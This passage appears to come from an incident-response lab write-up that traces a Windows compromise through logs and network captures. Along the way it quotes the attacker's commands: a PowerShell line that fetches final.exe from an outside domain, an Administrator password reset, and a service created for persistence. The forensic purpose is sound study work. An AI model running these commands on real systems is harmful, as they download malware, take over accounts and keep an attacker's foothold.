 Further analysis suggest that it looks like **spf.exe (PID 6828)** is responsible for downloading **final.exe**:
![Pasted image 20240918191755.png](/img/user/images/Pasted%20image%2020240918191755.png)
##### final.exe Analysis
---
 Using the PID 3712 as filter in Timeline Explorer shows a parent process **wsmprovhost.exe** which is for Windows Remote Management executing a payload:
 
```bash
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" iwr http://phishteam.xyz/02dcf07/final.exe -outfile C:\ProgramData\final.exe
```

###### DNS Query Analysis
---
**final.exe** connects to the same domain name by filtering for Event ID 22 for DNS queries using the binary name:

![Pasted image 20240918195317.png](/img/user/images/Pasted%20image%2020240918195317.png)
It connects to a different port using Wireshark we can use the IP address of `resolvecyber.xyz` and scroll down to find out the second port which is port **8080**:

![Pasted image 20240918201055.png](/img/user/images/Pasted%20image%2020240918201055.png)

We can use the same brim filter but replacing the port with 8080 to check all new commands sent from c2 and then exporting it and feeding it to the same powershell command:

```bash
_path=="http" "<replace domain>" id.resp_p==<replace port> | cut ts, host, id.resp_p, uri | sort ts
```

Command output:

![Pasted image 20240918202531.png](/img/user/images/Pasted%20image%2020240918202531.png)
**Interesting commands:**
- Two users created shuna and shion
- Attacker added shion as part of the local group administrators.
![Pasted image 20240918203541.png](/img/user/images/Pasted%20image%2020240918203541.png)
 - "C:\Windows\system32\net.exe" user Administrator ch4ng3dpassword!
 - "C:\Windows\system32\sc.exe" \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto
